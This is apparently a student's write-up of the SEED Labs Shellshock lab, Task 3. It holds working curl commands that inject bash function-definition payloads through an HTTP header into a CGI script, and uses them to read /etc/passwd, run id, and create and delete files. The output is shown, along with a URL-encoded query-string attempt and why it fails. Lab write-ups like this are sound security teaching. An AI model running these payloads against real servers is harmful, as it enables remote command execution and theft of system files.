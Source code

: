 ## Task 3: Launching the Shellshock Attack
- the attack does not depend on what is in the CGI program, as it targets the bash program
- to get the plain-text output of our command, we need to follow a protocol: the output should start with `Content_type: text/plain`, followed by an empty line, and then place the output, e.g., `echo Content_type: text/plain; echo; /bin/ls -l`

### Task 3.A
- Get the server to send back the content of `/etc/passwd`
    ```
    $ curl www.seedlab-shellshock.com/cgi-bin/vul.cgi -H "F: () { echo "1";}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd;"
    root:x:0:0:root:/root:/bin/bash
    ...
    ```
### Task 3.B
- Get the process' user ID (`/bin/id`)
    ```
    $ curl www.seedlab-shellshock.com/cgi-bin/vul.cgi -H "F: () { echo "1";}; echo Content_type: text/plain; echo; /bin/id;"
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```
### Task 3.C
- Get the server to create a file in `/tmp`
    ```
    $ curl www.seedlab-shellshock.com/cgi-bin/vul.cgi -H "F: () { echo "1";}; echo; /bin/touch /tmp/task3;"
    ```
    - check in the container
        ```
        # ls /tmp
        task3
        ```
### Task 3.D
- Get the server to delete the file created in task `3.C`
    ```
    $ curl www.seedlab-shellshock.com/cgi-bin/vul.cgi -H "F: () { echo "1";}; echo; /bin/rm /tmp/task3;"
    ```
    - check in the container
        ```
        # ls /tmp <---- nothing in it
        ```
### Questions
1. will we be able to steal content in `/etc/shadow`?
    - no, when running `/bin/id` we know the server is running as `www-data`, it doesn't have the privilege to read `/etc/shadow`
2. HTTP GET requests typically attach data in the URL, this could be another approach to launch the attack, e.g., `$ curl "...?AAAAA"`, and there will be an environment variable `QUERY_STRING=AAAAA`, use this method to launch the Shellshock attack
    - the command is `curl www.seedlab-shellshock.com/cgi-bin/vul.cgi?() { echo "1";}; echo; /bin/ls -l;`, but we need to URL encode some special characters
    - the actual command is `curl www.seedlab-shellshock.com/cgi-bin/vul.cgi?%28%29+%7B+echo+%221%22%3B%7D%3B+echo%3B+%2Fbin%2Fls+-l%3B`
    - however, if we use `getenv.cgi`, we can see that the URL encoded string is not decoded, i.e., the value of environment variable will not be this format: `() { ...};...`, so it will not be coverted to a shell function, and our commands won't be executed